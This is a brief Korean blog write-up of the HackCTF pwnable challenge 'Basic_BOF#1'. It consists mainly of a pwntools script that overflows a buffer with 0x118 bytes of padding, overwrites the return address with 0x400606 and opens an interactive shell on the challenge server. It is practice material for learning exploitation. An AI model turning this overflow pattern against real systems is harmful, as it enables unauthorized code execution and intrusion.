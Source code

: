 ```yaml
---
title: "[HackCtf] Basic_BOF#1"
date: 2020-06-29
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


<span class="color-blue">HackCTF</span>의 첫 번째 <span class="color-blue">Pwnable</span> 문제로 <span class="color-blue">bof</span>를 이용한다.
{% highlight python %}
from pwn import *
context.log_level="debug"
p = remote("ctf.j0n9hyun.xyz", 3004)

payload = "a"*0x118
payload+= p64(0x400606)

p.sendline(payload)

p.interactive()
{% endhighlight %}
